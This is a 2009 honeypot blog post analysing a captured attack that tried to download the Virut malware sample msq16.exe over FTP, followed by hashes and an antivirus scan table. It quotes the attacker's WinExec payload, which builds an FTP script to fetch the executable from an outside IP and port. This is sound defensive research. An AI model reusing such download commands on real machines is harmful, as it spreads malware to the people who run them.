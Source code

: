 ```yaml
---
title: "Iteolih: malicious ftp services"
date: "2009-07-26"
tags: 
  - "iteolih-d90"
---
```


Yesterday, I got an incomplete, but successful, attack on my honeypot, the attackers remote code execution looked like this:  

  

**WinExec("cmd /c echo open 78.1.96.200 4871 > o&echo user 1 1 >> o &echo get msq16.exe >> o")  
ExitThread(0)**  

  

  
As the required part to download the malware to the remotehost was incomplete, I got curious and wanted a copy.  

  
  

I did not expect downloading the malware getting a problem, as all information required was available, including host credentials and filename. But, as the ftp service embedded in the malware is still special, it was a problem.  
The ftp service [is designed to work with the windows ftp client](http://nepenthes.carnivore.it/documentation:modules:downloadhandler:download_ftp "nepenthes, ftp download problems"), the windows ftp only provides active ftp, active ftp does not work on nat if the ftp service port is not on default port 21. 
Apart from that, the ftp service may [fail with 6% of all ports](http://nepenthes.carnivore.it/news_archive:2006#a_common_bug "ftp PORT parsing 0xf").

  

I've had the same problems with nepenthes 3 years ago, but had the slight hope the malware authors might have fixed it in the meantime. Obviously I was wrong.

  

As I was looking for a more general solution than using netcat, I scripted a small ftp client in python, using pythons ftplib. Provided your external ip and a forwarded port range, the client is able to download files via active ftp from _Designed for Windows_ ™ ftp services.

  

You can download the script [here](http://svn.carnivore.it/browser/dump/ftpexe.py "ftpexe.py script"), verified to work with python3.x and 2.x.

  

  

After getting the file,

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| msq16.exe |
| --- |
| File size: 550912 bytes |
| MD5   : 8d599fa3d633de4d24dea51af67a61c9 |
| SHA1  : f11188ad9501c1b6cdc051c6cd09776eec5b282e |
| SHA256: 75dd3c06d832a270e0838b3eaf87ad428f3bab16e2599a33c4415dc94362547c |

  

  

I sent it to virustotal.com, here is the report:

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| Antivirus | Version | Last Update | Result |
| --- | --- | --- | --- |
| a-squared | 4.5.0.24 | 2009.07.25 | Trojan.Win32.Refroso!IK |
| AhnLab-V3 | 5.0.0.2 | 2009.07.25 | Win32/Virut.B |
| AntiVir | 7.9.0.228 | 2009.07.24 | W32/Virut.AX |
| Antiy-AVL | 2.0.3.7 | 2009.07.24 | \- |
| Authentium | 5.1.2.4 | 2009.07.25 | W32/Virut.7116 |
| Avast | 4.8.1335.0 | 2009.07.25 | Win32:Virtob |
| AVG | 8.5.0.387 | 2009.07.25 | Win32/Virut |
| BitDefender | 7.2 | 2009.07.25 | Trojan.Generic.2200851 |
| CAT-QuickHeal | 10.00 | 2009.07.25 | W32.Virut.Z |
| ClamAV | 0.94.1 | 2009.07.25 | W32.Virut-54 |
| Comodo | 1741 | 2009.07.25 | Worm.Win32.Email-Worm.generic.daisy-1529 |
| DrWeb | 5.0.0.12182 | 2009.07.25 | Trojan.KeyLogger.2526 |
| eSafe | 7.0.17.0 | 2009.07.23 | \- |
| eTrust-Vet | 31.6.6640 | 2009.07.25 | Win32/Virut.7115 |
| F-Prot | 4.4.4.56 | 2009.07.25 | W32/Virut.7116 |
| F-Secure | 8.0.14470.0 | 2009.07.25 | Virus.Win32.Virut.av |
| Fortinet | 3.120.0.0 | 2009.07.25 | W32/Virut.AV |
| GData | 19 | 2009.07.25 | Trojan.Generic.2200851 |
| Ikarus | T3.1.1.64.0 | 2009.07.25 | Trojan.Win32.Refroso |
| Jiangmin | 11.0.800 | 2009.07.25 | Win32/Virut.af |
| K7AntiVirus | 7.10.802 | 2009.07.25 | Virus.Win32.Virut.av |
| Kaspersky | 7.0.0.125 | 2009.07.25 | Virus.Win32.Virut.av |
| McAfee | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee+Artemis | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee-GW-Edition | 6.8.5 | 2009.07.25 | Heuristic.LooksLike.Trojan.Dropper.J |
| Microsoft | 1.4903 | 2009.07.25 | Virus:Win32/Virut.AC |
| NOD32 | 4277 | 2009.07.25 | Win32/Virut.AV |
| Norman |   
 | 2009.07.24 | W32/Virut.AG |
| nProtect | 2009.1.8.0 | 2009.07.25 | Virus/W32.Virut.K |
| Panda | 10.0.0.14 | 2009.07.25 | W32/Virutas.FG |
| PCTools | 4.4.2.0 | 2009.07.25 | Win32.Virut.Gen.4 |
| Prevx | 3.0 | 2009.07.25 | \- |
| Rising | 21.39.52.00 | 2009.07.25 | Win32.Virut.an |
| Sophos | 4.44.0 | 2009.07.25 | W32/Virut-W |
| Sunbelt | 3.2.1858.2 | 2009.07.25 | Win32.Virut.av (v) |
| Symantec | 1.4.4.12 | 2009.07.25 | W32.Virut.W |
| TheHacker | 6.3.4.3.373 | 2009.07.24 | W32/Virut.av |
| TrendMicro | 8.950.0.1094 | 2009.07.25 | PE\_VIRUT.AV |
| VBA32 | 3.12.10.9 | 2009.07.24 | Virus.Win32.Virut.2 |
| ViRobot | 2009.7.25.1853 | 2009.07.25 | Win32.Virut.S |
| VirusBuster | 4.6.5.0 | 2009.07.25 | Win32.Virut.Gen.4 |
